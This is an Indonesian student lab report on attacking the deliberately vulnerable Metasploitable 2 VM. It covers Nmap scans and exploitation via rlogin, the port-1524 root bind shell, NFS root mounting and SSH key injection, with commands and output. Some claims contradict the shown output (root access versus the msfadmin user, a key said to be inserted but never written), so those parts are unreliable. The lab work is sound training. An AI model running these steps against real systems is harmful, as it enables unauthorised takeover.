

# Metasploitable 2 – Penetration Testing Report
Praka Mar Nur Cayanto

---

# 1. Pendahuluan

## 1.1 Apa itu Metasploitable 2
Metasploitable 2 adalah sebuah virtual machine berbasis Linux yang sengaja dibuat memiliki banyak celah keamanan (intentionally vulnerable). VM ini dirancang khusus untuk keperluan pembelajaran dan praktik penetration testing menggunakan berbagai teknik eksploitasi, enumerasi, dan analisis kerentanan. Karena tingkat kerentanannya tinggi, Metasploitable 2 biasanya dijalankan di lingkungan terisolasi seperti VirtualBox atau VMware.

## 1.2 Tujuan Penggunaan dalam Tugas
Dalam tugas ini, Metasploitable 2 digunakan sebagai target pengujian untuk:
- Melatih proses scanning dan enumerasi menggunakan tool keamanan.
- Mempelajari cara mengidentifikasi service yang rentan.
- Mencoba beberapa teknik eksploitasi sederhana untuk memahami alur serangan.
- Mendokumentasikan seluruh proses untuk menghasilkan laporan penetration testing dasar.

Tujuan akhirnya adalah memahami bagaimana sebuah sistem dapat dieksploitasi apabila konfigurasi dan keamanannya tidak dikelola dengan baik.

## 1.3 Tools yang Digunakan
Berikut adalah daftar tools dan sistem yang digunakan dalam proses pengujian:

### • Kali Linux
Digunakan sebagai mesin attacker. Kali menyediakan berbagai tools untuk scanning, enumerasi, dan eksploitasi, termasuk nmap dan utility pendukung lainnya.

### • Metasploitable 2
Berfungsi sebagai target yang akan diuji. VM ini berisi banyak service rentan seperti FTP, SSH, Telnet, HTTP, Samba, NFS, dan lainnya.

### • Nmap
Digunakan untuk melakukan pemindaian jaringan (port scanning) dan service enumeration.  
Contohnya:
- Basic scan
- Full port scan
- Aggressive scan (OS detection & service fingerprinting)

### • rlogin / rsh-client
Digunakan untuk eksploitasi layanan r-services yang tidak aman pada Metasploitable 2, yang berpotensi memberikan akses langsung ke sistem target.

### • NFS Tools (nfs-common)
Digunakan untuk melakukan enumerasi dan mounting filesystem melalui layanan NFS yang salah konfigurasi, sehingga penyerang dapat mengakses isi filesystem Metasploitable 2.

---

# 2. Lingkungan Pengujian (Lab Setup)

## 2.1 Spesifikasi Sistem
Pengujian dilakukan menggunakan dua virtual machine pada platform VirtualBox. Berikut detail spesifikasinya:

### • Host Machine
- Sistem Operasi: Windows 11  
- Virtualization Platform: Oracle VM VirtualBox  
- RAM Host: 16 GB  
- Processor: 12th Gen Intel(R) Core(TM) i9-12900H (2.50 GHz)

### • Guest Machine 1 – Kali Linux (Attacker)
- Sistem Operasi: Kali Linux  
- RAM: 4 GB  
- CPU: 2 cores  
- Peran: Mesin penyerang yang digunakan untuk scanning dan eksploitasi  

### • Guest Machine 2 – Metasploitable 2 (Target)
- OS: Ubuntu 8.04 (Metasploitable 2)  
- RAM: 512 MB  
- CPU: 1 core  
- Peran: Mesin target yang berisi banyak service rentan  

---

## 2.2 Konfigurasi Jaringan
Agar kedua VM dapat saling terhubung, digunakan mode jaringan berikut:

- **Network Mode:** Internal Network (cyberlab-sttal)  
- **Tujuan:** Memberikan koneksi internal antara Kali Linux dan Metasploitable 2  

### Contoh IP Address:
- IP Kali Linux: `192.168.100.50`  
- IP Metasploitable 2: `192.168.100.101`  

---

## 2.3 Menentukan IP Target
Untuk mengetahui IP Metasploitable 2, lakukan login pada VM Metasploitable dan jalankan:

```bash ifconfig```

## 2.4 Menambahkan Hostname pada Kali Linux

Menambahkan IP target ke dalam file /etc/hosts. Tujuanya agar lebih mudah pada saat melakukan scanning.
`echo "192.168.56.102 target" | sudo tee -a /etc/hosts`
Tujuan utama dari penambahan entri ini adalah untuk mempermudah pengenalan dan pengalamatan suatu alamat IP. Dengan menambahkan baris $192.168.56.102$ target ke /etc/hosts, membuat sebuah alias atau nama host lokal untuk alamat IP tersebut.

## 2.5 Struktur Lingkungan Pengujian



# 3. Tahap 1 – Scanning & Enumerasi

Tahap pertama dalam penetration testing adalah melakukan scanning dan enumerasi untuk mengidentifikasi port terbuka, service berjalan, serta potensi kerentanan pada sistem target. Pada tahap ini digunakan tool **Nmap** sebagai alat utama untuk pemindaian jaringan.

---

## 3.1 Basic Scan (Pemindaian Dasar)

Pemindaian dasar dilakukan untuk mengetahui port-port awal yang terbuka pada target.
```
┌──(mascay㉿kali)-[~]
└─$ sudo nmap -n -Pn target
[sudo] kata sandi untuk mascay: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-21 11:37 WIB
Nmap scan report for 192.168.100.101
Host is up (0.0037s latency).
Not shown: 977 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
23/tcp   open  telnet
25/tcp   open  smtp
53/tcp   open  domain
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
512/tcp  open  exec
513/tcp  open  login
514/tcp  open  shell
1099/tcp open  rmiregistry
1524/tcp open  ingreslock
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
5432/tcp open  postgresql
5900/tcp open  vnc
6000/tcp open  X11
6667/tcp open  irc
8009/tcp open  ajp13
8180/tcp open  unknown
MAC Address: 08:00:27:9C:02:82 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.41 seconds
```
Keterangan:
-n → tanpa DNS resolution
-Pn → host dianggap up, skip host discovery
target → hostname yang sudah ditambahkan pada ```/etc/hosts```
Tujuan:
Mengetahui port layanan yang langsung terlihat tanpa pemindaian mendalam.
Perintah sudo nmap -n -Pn target secara efektif melakukan pemindaian port cepat (karena -n) pada target yang dijamin online (karena -Pn), bahkan jika target memblokir ping, dengan hasil yang hanya mencantumkan alamat IP tanpa nama host (karena -n).


##3.2 Full Port Scan (Pemindaian Semua Port)
Tahap ini melakukan scanning pada seluruh 65.535 port untuk mengidentifikasi layanan yang berjalan pada port tidak standar.
```
┌──(mascay㉿kali)-[~]
└─$ nmap -n -Pn -p- target 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-21 15:56 WIB
Nmap scan report for 192.168.100.101
Host is up (0.0084s latency).
Not shown: 65505 closed tcp ports (reset)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
23/tcp    open  telnet
25/tcp    open  smtp
53/tcp    open  domain
80/tcp    open  http
111/tcp   open  rpcbind
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
512/tcp   open  exec
513/tcp   open  login
514/tcp   open  shell
1099/tcp  open  rmiregistry
1524/tcp  open  ingreslock
2049/tcp  open  nfs
2121/tcp  open  ccproxy-ftp
3306/tcp  open  mysql
3632/tcp  open  distccd
5432/tcp  open  postgresql
5900/tcp  open  vnc
6000/tcp  open  X11
6667/tcp  open  irc
6697/tcp  open  ircs-u
8009/tcp  open  ajp13
8180/tcp  open  unknown
8787/tcp  open  msgsrvr
32790/tcp open  unknown
45197/tcp open  unknown
45631/tcp open  unknown
52012/tcp open  unknown
MAC Address: 08:00:27:9C:02:82 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 13.50 seconds
```
Keterangan:
```-p-``` → scan seluruh port dari 1–65535
Tujuan:
Menemukan layanan tersembunyi atau yang berjalan pada port non-default.


##3.3 Aggressive Scan (Fingerprinting OS & Service)

Aggressive scan digunakan untuk mendapatkan informasi lengkap tentang:
Versi service
Sistem operasi
Script hasil NSE (Nmap Scripting Engine)
Potensi kerentanan umum
```
                                                                             
┌──(mascay㉿kali)-[~]
└─$ nmap -n -Pn -p- -A target
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-21 15:59 WIB
Nmap scan report for 192.168.100.101
Host is up (0.0022s latency).
Not shown: 65505 closed tcp ports (reset)
PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.100.50
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp    open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
23/tcp    open  telnet      Linux telnetd
25/tcp    open  smtp        Postfix smtpd
|_smtp-commands: metasploitable.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
53/tcp    open  domain      ISC BIND 9.4.2
| dns-nsid: 
|_  bind.version: 9.4.2
80/tcp    open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
|_http-server-header: Apache/2.2.8 (Ubuntu) DAV/2
|_http-title: Metasploitable2 - Linux
111/tcp   open  rpcbind     2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/udp   nfs
|   100005  1,2,3      52012/tcp   mountd
|   100005  1,2,3      53640/udp   mountd
|   100021  1,3,4      34217/udp   nlockmgr
|   100021  1,3,4      45631/tcp   nlockmgr
|   100024  1          42480/udp   status
|_  100024  1          45197/tcp   status
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
512/tcp   open  exec        netkit-rsh rexecd
513/tcp   open  login?
514/tcp   open  shell       Netkit rshd
1099/tcp  open  java-rmi    GNU Classpath grmiregistry
1524/tcp  open  bindshell   Metasploitable root shell
2049/tcp  open  nfs         2-4 (RPC #100003)
2121/tcp  open  ftp         ProFTPD 1.3.1
3306/tcp  open  mysql       MySQL 5.0.51a-3ubuntu5
| mysql-info: 
|   Protocol: 10
|   Version: 5.0.51a-3ubuntu5
|   Thread ID: 8
|   Capabilities flags: 43564
|   Some Capabilities: Support41Auth, LongColumnFlag, SupportsCompression, SupportsTransactions, SwitchToSSLAfterHandshake, ConnectWithDatabase, Speaks41ProtocolNew
|   Status: Autocommit
|_  Salt: NJgJ{PYRmN}MH`,WT|7;
3632/tcp  open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
5432/tcp  open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
|_ssl-date: 2025-11-21T09:02:38+00:00; -2s from scanner time.
| ssl-cert: Subject: commonName=ubuntu804-base.localdomain/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Not valid before: 2010-03-17T14:07:45
|_Not valid after:  2010-04-16T14:07:45
5900/tcp  open  vnc         VNC (protocol 3.3)
| vnc-info: 
|   Protocol version: 3.3
|   Security types: 
|_    VNC Authentication (2)
6000/tcp  open  X11         (access denied)
6667/tcp  open  irc         UnrealIRCd
6697/tcp  open  irc         UnrealIRCd
8009/tcp  open  ajp13       Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8180/tcp  open  http        Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/5.5
8787/tcp  open  drb         Ruby DRb RMI (Ruby 1.8; path /usr/lib/ruby/1.8/drb)
32790/tcp open  java-rmi    GNU Classpath grmiregistry
45197/tcp open  status      1 (RPC #100024)
45631/tcp open  nlockmgr    1-4 (RPC #100021)
52012/tcp open  mountd      1-3 (RPC #100005)
MAC Address: 08:00:27:9C:02:82 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Network Distance: 1 hop
Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: METASPLOITABLE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: metasploitable
|   NetBIOS computer name: 
|   Domain name: localdomain
|   FQDN: metasploitable.localdomain
|_  System time: 2025-11-21T04:02:01-05:00
|_clock-skew: mean: 1h39m58s, deviation: 2h53m12s, median: -2s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

TRACEROUTE
HOP RTT     ADDRESS
1   2.17 ms 192.168.100.101

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 237.61 seconds
```

## 3. Analisis Hasil Scanning

Berdasarkan hasil pemindaian aggressive scan menggunakan perintah:

```bash
nmap -n -Pn -p- -A 192.168.100.101```
terdeteksi bahwa target (Metasploitable 2) memiliki banyak port terbuka dan service yang rentan. Berikut analisis lengkap per kategori layanan.
1. Layanan FTP
Port: 21 (vsftpd 2.3.4)
Versi vsftpd 2.3.4 dikenal memiliki backdoor di beberapa distribusi tertentu.
FTP menggunakan plain-text, tidak ada enkripsi.
Anonymous login allowed, memudahkan akses tanpa autentikasi.
Risiko: Tinggi
Potensi Eksploitasi:
Enumerasi file
Anonymous access
Exploit vsftpd backdoor (jika versi backdoored)

2. SSH
Port: 22 (OpenSSH 4.7p1)
Versi lama dan rentan terhadap beberapa serangan brute force atau info leak.
Risiko: Medium
Catatan: Masih lebih aman dibanding Telnet yang juga aktif.

3. Telnet
Port: 23 (Linux telnetd)
Protokol tidak aman, tidak mengenkripsi data.
Password dapat disadap (sniffable).
Sering digunakan sebagai entry point awal pada Metasploitable.
Risiko: Tinggi
Potensi Eksploitasi: Credential hijacking

4. SMTP (Email Server)
Port: 25 (Postfix smtpd)
Mendukung VRFY command → bisa digunakan untuk enumerasi akun pengguna.
Tidak aman tanpa TLS.
Risiko: Medium

5. DNS
Port: 53 (BIND 9.4.2)
Versi BIND lama, rentan terhadap serangan DoS dan cache poisoning.
Bisa digunakan untuk domain enumeration.
Risiko: Medium–Tinggi

6. Web Server – HTTP
Port: 80 (Apache 2.2.8)
Versi tua dan rentan terhadap berbagai exploit.
Berisi aplikasi web rentan seperti:
Mutillidae
DVWA
PHPMyAdmin (versi lama)
WebDAV misconfiguration
Risiko: Tinggi
Potensi Eksploitasi:
RCE, LFI, SQLi, XSS, dan lainnya.

7. RPC Bind & NFS
Ports: 111, 2049, mountd, status, nlockmgr
Service: NFS (versi 2–4)
NFS terbuka untuk umum tanpa restriksi IP.
Jika root filesystem diekspor, penyerang bisa mounting file system dan membaca seluruh sistem.
Ini merupakan salah satu exploit utama Metasploitable.
Risiko: Sangat Tinggi
Potensi Eksploitasi:
Mounting file system tanpa autentikasi
Mengambil kredensial
Akses penuh ke seluruh direktori

8. SMB / Samba
Ports: 139, 445 (Samba 3.0.20)
Versi rentan terhadap exploit smb_relay dan vulnerabilitas lama lainnya.
Message signing disabled → memudahkan MITM.
Risiko: Tinggi

9. r-services (rlogin, rsh)
Ports: 512, 513, 514**
Layanan lama yang tidak aman.
Bisa memberikan akses root tanpa password apabila trust misconfigured.
Ini merupakan exploit paling umum pada Metasploitable 2.
Risiko: Sangat Tinggi
Potensi Eksploitasi:
Remote command execution atau login tanpa password.

10. Backdoor Bind Shell
Port: 1524
Port ini adalah intentional backdoor pada Metasploitable, memberikan root shell langsung.
Risiko: Kritis
Eksploitasi:
nc 192.168.100.101 1524 → mendapat root shell instan

11. Database Services
MySQL – Port 3306
Versi lama (5.0.51a). Rentan terhadap:
Weak authentication
Privilege escalation
Remote exploit tertentu
PostgreSQL – Port 5432
Versi 8.3.x sangat tua, memiliki vulnerability RCE tertentu.
Risiko: Medium–Tinggi

12. distccd
Port: 3632
Layanan ini terkenal rentan terhadap exploit distccd_exec (Metasploit module).
Dapat memberikan remote command execution.
Risiko: Tinggi

13. VNC (5900)
Tidak terenkripsi
Mudah di-bruteforce
Mengungkap tampilan desktop bila berhasil dieksploitasi
Risiko: Tinggi

14. Aplikasi Web Tambahan
Apache Tomcat – Port 8180
Versi tua (Tomcat 5.5)
Rentan terhadap RCE dan credential leak

15. IRC Server
Ports: 6667, 6697
UnrealIRCd versi rentan (versi ini memiliki backdoor RCE pada distribusi tertentu)
Risiko: Tinggi

Kesimpulan Analisis
Dari hasil scanning:
Terdapat puluhan layanan rentan berjalan di Metasploitable 2.
Layanan kritis:
NFS
rsh / rlogin
Samba
distccd
Backdoor shell (1524)
Anonymous FTP
Sistem ini sangat rentan dan ideal untuk eksploitasi.

# 4. Tahap 2 – Eksploitasi

Setelah proses scanning dan enumerasi, tahap berikutnya adalah melakukan eksploitasi terhadap layanan yang terbukti rentan. Pada Metasploitable 2, terdapat beberapa service yang dapat dieksploitasi dengan mudah. Pada laporan ini dilakukan dua eksploitasi utama:

1. Eksploitasi layanan **rlogin** melalui paket `rsh-client`  
2. Eksploitasi layanan **NFS** melalui kesalahan konfigurasi export filesystem  

Kedua eksploitasi ini memberikan akses penuh (root/full filesystem access) terhadap target.

---

## 4.1 Eksploitasi rlogin (Remote Login)

Layanan **rlogin** merupakan bagian dari r-services yang tidak aman dan tidak menggunakan enkripsi. Pada Metasploitable 2, layanan ini terbuka serta salah konfigurasi sehingga dapat memberikan akses root tanpa autentikasi kuat.

### 4.1.1 Instalasi rsh-client di Kali Linux
```
┌──(mascay㉿kali)-[~]
└─$ sudo apt install rsh-redone-client```
NB : Pada panduan Metasploitable2 petunjuk installasi adalah `root@kali:~# apt install rsh-client` namun untuk Kali Linux terbaru, paket rsh-client sudah tidak tersedia lagi di repository default.

### 4.1.2 Melakukan Login ke Target
setelah terinstall jalankan :
```
┌──(mascay㉿kali)-[~]
└─$ sudo rlogin target 
Last login: Thu Nov 20 22:41:33 EST 2025 on tty1
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
No mail.
msfadmin@metasploitable:~$ id
uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),107(fuse),111(lpadmin),112(admin),119(sambashare),1000(msfadmin)
msfadmin@metasploitable:~$ 
```

### 4.1.3 Dampak Eksploitasi rlogin
Akses shell root tanpa kredensial.
Penyerang bisa melakukan modifikasi file sistem.
Risiko besar untuk privilege escalation & system takeover.


## 4.2 Eksploitasi NFS (Network File System)
Layanan NFS pada Metasploitable 2 diekspor dengan konfigurasi sangat tidak aman, memungkinkan siapa saja untuk melakukan mounting filesystem dari jarak jauh tanpa batasan IP.

### 4.2.1 Instalasi nfs-common
Pada Kali Linux, install paket:
```
┌──(mascay㉿kali)-[~]
└─$ sudo apt install nfs-common ```

### 4.2.2 Mengecek Export NFS Target
```
┌──(mascay㉿kali)-[~]
└─$ showmount -e target

Export list for target:
/ * ```
Hasil tersebut menunjukkan bahwa root filesystem ("/") diekspor untuk semua host, sebuah konfigurasi yang sangat berbahaya.
Hal ini sangat berbahaya karena memungkinkan sistem apa pun untuk memasang sistem berkas root dari sistem target. Dengan demikian, perubahan sewenang-wenang dan eksfiltrasi apa pun dari sistem target dapat dilakukan.

### 4.2.3 Melakukan Mount Filesystem Target
Mount root filesystem target ke direktori lokal:
```
┌──(mascay㉿kali)-[~]
└─$ sudo mount -t nfs target:/ /mnt
``` Setelah berhasil, isi seluruh file sistem Metasploitable 2 dapat diakses dari `/mnt.

### 4.2.4 Verifikasi Akses
Cek isi direktori target untuk verikifikasi dari `/mnt. `:
```
┌──(mascay㉿kali)-[~]
└─$ ls -l /mnt
total 100
drwxr-xr-x  2 root root  4096 Mei 14 2012 bin
drwxr-xr-x  3 root root  4096 Apr 29 2010 boot
lrwxrwxrwx  1 root root    11 Apr 29 2010 cdrom -> media/cdrom
drwxr-xr-x  2 root root  4096 Apr 29 2010 dev
drwxr-xr-x 94 root root  4096 Nov 21 10:41 etc
drwxr-xr-x  6 root root  4096 Apr 16 2010 home
drwxr-xr-x  2 root root  4096 Mar 17 2010 initrd
lrwxrwxrwx  1 root root    32 Apr 29 2010 initrd.img -> boot/initrd.img-2.6.24-16-server                                                                  
drwxr-xr-x 13 root root  4096 Mei 14 2012 lib
drwx------  2 root root 16384 Mar 17 2010 lost+found
drwxr-xr-x  4 root root  4096 Mar 17 2010 media
drwxr-xr-x  3 root root  4096 Apr 29 2010 mnt
-rw-------  1 root root  9426 Nov 21 10:41 nohup.out
drwxr-xr-x  2 root root  4096 Mar 17 2010 opt
dr-xr-xr-x  2 root root  4096 Apr 29 2010 proc
drwxr-xr-x 13 root root  4096 Nov 21 10:41 root
drwxr-xr-x  2 root root  4096 Mei 14 2012 sbin
drwxr-xr-x  2 root root  4096 Mar 17 2010 srv
drwxr-xr-x  2 root root  4096 Apr 29 2010 sys
drwxrwxrwt  4 root root  4096 Nov 21 16:02 tmp
drwxr-xr-x 12 root root  4096 Apr 28 2010 usr
drwxr-xr-x 14 root root  4096 Mar 17 2010 var
lrwxrwxrwx  1 root root    29 Apr 29 2010 vmlinuz -> boot/vmlinuz-2.6.24-16-server    
```
Salah satu cara yang disarankan oleh panduan Metasploitable yaitu untuk menambahkan kunci SSH ke berkas `/root/.ssh/authorized_keys` pada target, sehingga memungkinkan akses SSH langsung ke sistem.

### 4.2.5 Dampak Eksploitasi NFS
1. Penyerang dapat membaca, mengubah, atau menghapus seluruh file di sistem
2. Tidak memerlukan autentikasi
3. Bisa menambahkan backdoor, user, atau binary berbahaya
4. Salah satu misconfiguration paling kritis di sistem Linux

## 4.3 Eksploitasi SSH Menggunakan NFS (SSH Key Injection)
Selain melakukan akses langsung melalui rlogin atau mounting NFS, salah satu teknik eksploitasi yang disarankan oleh panduan Metasploitable adalah **menyisipkan SSH key ke dalam file `/root/.ssh/authorized_keys`** pada target.  
Teknik ini memanfaatkan fakta bahwa filesystem root Metasploitable 2 sudah berhasil di-mount melalui NFS.
Dengan menambahkan SSH public key penyerang, kita dapat melakukan login SSH sebagai root tanpa password.

---

### 4.3.1 Step 1 — Membuat SSH Key di Mesin Attacker
Pertama, buat SSH key baru di Kali Linux:
```
┌──(mascay㉿kali)-[~]
└─$ ssh-keygen -t rsa
Generating public/private rsa key pair.
Enter file in which to save the key (/home/mascay/.ssh/id_rsa): 
Enter passphrase for "/home/mascay/.ssh/id_rsa" (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/mascay/.ssh/id_rsa
Your public key has been saved in /home/mascay/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:+eEgKonjRsI0IrrpMW8ivYec9xXDftN/PsCNgd71qUw mascay@kali
The key's randomart image is:
+---[RSA 3072]----+
|                 |
|                 |
|            .    |
|oo     . . . . . |
|* .   . S o o = o|
|o+ . . o * + E o.|
|=Boo.   o = + o  |
|=+Ooo  . . . + ..|
|+o+= ..       .oo|
+----[SHA256]-----+```
key public berada pada `/root/.ssh/id_rsa.pub

### 4.3.2 Step 2 — Menyisipkan Key ke Target melalui Mount NFS
Setelah filesystem Metasploitable di-mount ke /mnt, kita dapat mengakses direktori root user:
Cek file authorized_keys:
```
┌──(mascay㉿kali)-[~]
└─$ ll /mnt/root/.ssh/authorized_keys
-rw-r--r-- 1 root root 405 Mei 18 2010 /mnt/root/.ssh/authorized_keys```
lihat isinya :
```
┌──(mascay㉿kali)-[~]
└─$ cat /mnt/root/.ssh/authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEApmGJFZNl0ibMNALQx7M6sGGoi4KNmj6PVxpbpG70lShHQqldJkcteZZdPFSbW76IUiPR0Oh+WBV0x1c6iPL/0zUYFHyFKAz1e6/5teoweG1jr2qOffdomVhvXXvSjGaSFwwOYB8R0QxsOWWTQTYSeBa66X6e777GVkHCDLYgZSo8wWr5JXln/Tw7XotowHr8FEGvw2zW1krU3Zo9Bzp0e0ac2U+qUGIzIu/WwgztLZs5/D9IyhtRWocyQPE+kcP+Jz2mt4y1uA73KqoXfdw5oGUkxdFo9f1nu2OwkjOc+Wv8Vw7bwkf+1RgiOMgiJ5cCs4WocyVxsXovcNnbALTp3w== msfadmin@metasploitable```
Ini berarti mesin attacker telah berhasil memasukkan key SSH ke mesin target.

### 4.3.3 Step 3 — Melakukan SSH ke Target Tanpa Password

# 5. Analisis Kerentanan

Pada tahap ini dilakukan analisis terhadap kerentanan yang berhasil dieksploitasi. Tujuannya adalah memahami penyebab, dampak, dan bagaimana layanan tersebut dapat dieksploitasi oleh penyerang dalam kondisi nyata. Dua layanan utama yang dianalisis adalah **rlogin** dan **NFS**.

---

## 5.1 Analisis Kerentanan rlogin

### 5.1.1 Penyebab Kerentanan
Layanan rlogin merupakan bagian dari r-services (rsh, rexec) yang dibuat sebelum standar keamanan modern. Kerentanan muncul karena:
- Tidak menggunakan enkripsi  
- Mengandalkan host-based authentication  
- Konfigurasi `.rhosts` dan `/etc/hosts.equiv` yang tidak aman  
- Tidak memvalidasi identitas user secara kuat  

Pada Metasploitable 2, konfigurasi rlogin memungkinkan siapa pun untuk login sebagai user privileged tanpa autentikasi tambahan.

### 5.1.2 Dampak
- Akses shell langsung sebagai root  
- Pengguna dapat menjalankan perintah administratif  
- Dapat menghancurkan sistem, memasang backdoor, atau mencuri data  
- Eskalasi dari user biasa ke root sangat mudah dilakukan  

### 5.1.3 Faktor Risiko
Kerentanan ini memiliki **risk level: Critical** karena memberikan kontrol penuh terhadap sistem.

---

## 5.2 Analisis Kerentanan NFS

### 5.2.1 Penyebab Kerentanan
Layanan NFS pada target memiliki misconfiguration berikut:
- Direktori `/` (root filesystem) diekspor secara publik  
- Tidak ada pembatasan IP atau host  
- Opsi NFS tidak membatasi akses root  
- Tidak ada autentikasi user maupun izin khusus  

Konfigurasi ini membuka peluang mounting filesystem secara penuh dari mesin apa pun dalam jaringan.

### 5.2.2 Dampak
- Penyerang dapat membaca/menulis semua file target  
- Dapat menambahkan file berbahaya, menanam SSH key, atau mengganti konfigurasi sistem  
- Potensi mengganti binary seperti `/bin/login` untuk backdoor  
- Seluruh keamanan sistem terkompromi  

Dampak eksploitasi NFS ini termasuk **full system compromise**.

### 5.2.3 Faktor Risiko
Risk level: **Critical**  
Sangat mudah dieksploitasi dan tanpa autentikasi.

---

## 5.3 Kesamaan Pola Kerentanan
Kerentanan pada Metasploitable 2 memperlihatkan pola umum pada sistem yang tidak aman:

- **Konfigurasi default** yang dibiarkan aktif  
- **Layanan lama (legacy)** tetap berjalan tanpa patch  
- **Kurangnya pembatasan akses jaringan**  
- **Tidak diterapkannya prinsip least privilege**  
- **Tidak ada firewall** untuk membatasi port  

Pola ini sering ditemukan pada server lama atau yang tidak dikelola dengan baik.

---

## 5.4 Implikasi terhadap Sistem Nyata

Jika kerentanan serupa ditemukan pada sistem produksi, dampaknya dapat mencakup:

- Kebocoran data sensitif  
- Pengambilalihan server oleh penyerang  
- Kehilangan kendali atas seluruh infrastruktur  
- Kerusakan reputasi organisasi  
- Potensi tuntutan hukum akibat kebocoran data  

Keterbukaan layanan seperti rlogin dan NFS tanpa proteksi adalah kesalahan fatal pada konteks keamanan modern.

---
